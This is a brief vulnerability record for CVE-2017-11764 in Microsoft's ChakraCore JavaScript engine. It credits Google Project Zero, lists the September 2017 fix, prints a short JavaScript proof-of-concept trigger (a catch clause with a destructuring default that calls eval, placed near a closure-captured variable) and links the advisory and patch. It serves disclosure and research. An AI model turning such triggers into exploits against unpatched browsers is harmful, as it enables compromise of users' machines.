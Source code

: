 # CVE-2017-11764

- Fix: Sep 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f() {
    {
        let i;
        function g() {
            i;
        }

        try {
            throw 1;
        } catch ({e = eval('dd')}) {
        }
    }
}

f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11764)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1326)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/81a39815937703da49bf101af64c0fcdf6e2ed22)
